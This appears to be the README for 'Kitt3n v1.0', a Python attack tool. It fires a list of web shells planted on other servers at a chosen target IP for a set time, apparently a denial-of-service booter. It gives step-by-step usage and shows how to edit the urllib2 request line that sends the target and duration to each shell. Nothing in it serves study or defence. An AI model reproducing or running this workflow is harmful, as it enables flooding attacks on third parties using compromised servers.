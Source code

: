 Kitt3n v1.0 - Kismet

Locate test.txt and add your shells/shell url path 

    Example: http://www.example.com/404.php
  
I've already set them to a certain param but you can edit them to your liking

    Example: http://www.example.com/404.php?host=1.1.1.1&time=120
  
If you would like to edit the params for the GET method you can do so by 

    Code: shellres = urllib2.urlopen(shell + "?host=" + target + "&time=" + str(time)).read()
    Example: http://www.example.com/shell.php
  
So lets say that the text input is ip instead of host ("?host=") and time is seconds ("&time=")
You would simpy replace host with ip and time with seconds in line 52.
  
    Code: shellres = urllib2.urlopen(shell + "?ip=" + target + "&seconds=" + str(time)).read()

    Note: If you use a list make sure all the shells have the same params!
  
Execute kitt3n

    Code: python kitt3n.py
  
Enter your file for your shells/shells url path

    Example: text.txt
  
Enter the IP of tagget

    Example: 127.0.0.1

Enter the time (recommend 180-240 seconds)

    Example: 240
  
Then it will set your input and ask you if you want to continue. Hit 'y'

    Code: y
  
Then sit back and let kitt3n do they work!

XMPP: kismet@r00-t.com
Twitter: temisK_
